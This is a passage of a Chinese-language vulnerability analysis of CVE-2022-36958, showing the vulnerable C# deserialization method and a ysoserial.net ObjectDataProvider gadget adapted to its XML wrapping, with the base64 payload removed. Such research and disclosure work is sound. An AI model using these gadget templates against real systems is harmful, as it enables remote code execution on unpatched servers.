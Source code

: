 然后，让我们分析一下`XmlStrippedSerializer.DeserializeFromStrippedXml(String)`。

```plain
public XmlStrippedSerializer(XmlSerializer serializer, string xsdElementName,
string ns, Type type)
{
    this._serializer = serializer;
    this._xsdElementName = xsdElementName;
    this._ns = ns;
    this._type = type;
}
public object DeserializeFromStrippedXml(string strippedXml)
{
    if (strippedXml == null)
    {
        throw new ArgumentNullException("strippedXml");
}
    string s = string.Format("<{0} xmlns='{1}'>{2}</{0}>", this.XsdElementName,
this.Namespace, strippedXml); // [1]
    return this.Serializer.Deserialize(new StringReader(s)); // [2]
}
```

代码段 15 CVE-2022-36958 - XmlStrippedSerializer.DeserializeFromStrippedXml 方法

在\[1\]处，正在创建一个新的 XML 字符串。它具有以下结构：

`<XsdElementName xmlns='Namespace'>ATTACKER-XML</XsdElementName>`

总结一下：

-   攻击者的 XML 采用特定类型的标签包装（参见 `GetSerializerInternal` 方法）。
-   此外，检索到的 Namespace 被插入到 xmlns 属性中。

攻击者控制最终 XML 的一个重要片段及其类型。然而，由于自定义的 XML 包装，`ysoserial.net` 的小工具不能直接使用。生成的小工具如下：

```plain
<ExpandedWrapperOfLosFormatterObjectDataProvider
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
    <ExpandedElement/>
    <ProjectedProperty0>
        <MethodName>Deserialize</MethodName>
        <MethodParameters>
            <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">base64 payload
removed for clarity</anyType>
        </MethodParameters>
        <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>
    </ProjectedProperty0>
</ExpandedWrapperOfLosFormatterObjectDataProvider>
```

代码段 16 CVE-2022-36958 - ysoserial.net ObjectDataProvider gadget

第一个标签等于 `ExpandedWrapperOfLosFormatterObjectDataProvider`。这个标签将由`DeserializeFromStrippedXml`方法自动生成，因此我们需要从生成的负载中将其删除。当我们这样做时，将传递以下 XML 给 `XmlSerializer.Deserialize` 方法：
